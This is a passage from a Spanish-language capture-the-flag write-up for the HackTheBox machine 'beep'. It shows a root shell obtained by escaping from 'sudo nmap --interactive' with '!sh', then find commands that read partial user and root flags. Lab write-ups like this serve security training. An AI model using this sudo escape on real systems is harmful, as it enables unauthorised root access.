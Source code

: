 ```bash
sudo nmap --interactive
```
```bash
#Resultados
Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```

## FLAGS

Una vez tenemos acceso a la máquina, tenemos la posibilidad de leer la flag `user` y `root` 

```bash
#USER
find / -name user.txt 2>/dev/null | xargs head -c 10; echo
52143a2a96
```

```bash
#ROOT
find / -name root.txt 2>/dev/null | xargs head -c 10; echo
a896454076
```

¡Hemos logrado completar la máquina `beep` de HackTheBox!

<p align="center">
<img src="/assets/images/beep/08-finish.png">
</p>

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**.
